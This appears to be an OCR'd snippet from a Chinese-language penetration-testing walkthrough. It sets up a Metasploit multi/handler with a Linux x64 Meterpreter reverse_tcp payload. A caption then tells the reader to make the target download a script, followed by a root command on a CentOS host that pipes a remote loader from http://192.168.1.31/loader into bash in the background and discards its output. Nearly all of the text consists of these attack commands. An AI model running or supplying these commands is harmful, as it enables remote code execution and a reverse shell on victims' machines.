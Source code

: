 ```
msf6 > use exploit/multi/handler 
```

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.1.31
```

```
run -j
```

使目标下载脚本

```
[root@CentOS-76 ~]# nohup curl -fsSL http://192.168.1.31/loader|bash -sh > /dev/null 2>&1 &
```
